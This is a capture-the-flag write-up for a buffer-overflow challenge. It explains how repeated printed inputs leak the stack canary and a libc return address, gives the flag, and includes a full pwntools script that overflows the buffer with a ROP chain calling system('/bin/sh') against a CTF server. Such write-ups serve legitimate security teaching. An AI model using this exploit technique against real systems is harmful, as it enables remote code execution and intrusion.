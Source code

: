 # Goodbye, Mr. Anderson

So there's some BOF reading functionality, I'm not going to go into detail about how the reading works but just know it essentially takes an amount, and reads that+1 chars into the buffer. The buffer is 24 bytes long and yet we can read 64, then 64, then 128 bytes into it, obviously creating buffer overflow.

So, the solution is like in Skywriting from redpwn. As our input is printed two times before the final input, we can use it to leak by nudging our input up against values, so that null termination is nonexistent and other values become part of the string. This allows us to leak values off the stack. Since we get 3 total of these inputs, the first 2 will be used for leaks whilst the last one is used to overflow the return address.

The buffer is at rbp-0x20, and the canary is at rbp-0x8. As well as this, the return address at rbp+0x8, and is __libc_start_main_ret. So, we can use that to leak libc. We can also leak canary so that we'll keep it constant.

1. Send 0x19 bytes to leak canary(first byte of canary is null, terminating input, so we must overwrite it a little bit so that the rest will be printed along with the string)
2. Send 0x28 bytes to leak libc start main ret and figure out where libc is
3. Send final payload with correct canary and ROP chain that calls system("/bin/sh")

#### Flag: flag{l0tsa_l33ks_4r3_imp0rt4nt}
```py
from pwn import *
context.arch = 'amd64'
e = ELF("./leaks")
p = e.process() if args.LOCAL else remote('chal.ctf.b01lers.com', 1009)
libc = e.libc if args.LOCAL else ELF("./leaks-libc")
libret = 0x270b3 if not args.LOCAL else 0x26e0b
p.recvline()
p.sendline('7')
p.send(b'/bin/sh\x00')
def doleak(data,dorecv=True,debug=False):
    p.sendline(str(len(data) - 1))
    p.send(data)
    if dorecv:
        p.recvuntil(data)
        if debug:
            p.interactive()
        return p.recvline()[:-1]
# Leak out the canary. Canary lies 0x18 bytes from our input, we need 0x19 since the first byte will be null
canleak = b'\x00' + doleak(b'A'*0x19)[:7]
canary = u64(canleak)
log.info(f"Canary: {hex(canary)}")
padding = b'A'*0x18 + p64(canary) + b'A'*8
libcleak = u64(doleak(b'A'*0x28).ljust(8,b'\x00'))
log.info(f"Libc leak: {hex(libcleak)}")
libcbase = libc.address = libcleak - libret
log.info(f"Libc base: {hex(libcbase)}")
rop = ROP(libc)
rop.raw(rop.ret.address)
rop.system(next(libc.search(b"/bin/sh\x00")))
print(rop.dump())
payload = padding + rop.chain()
doleak(payload,False)
p.interactive()
```
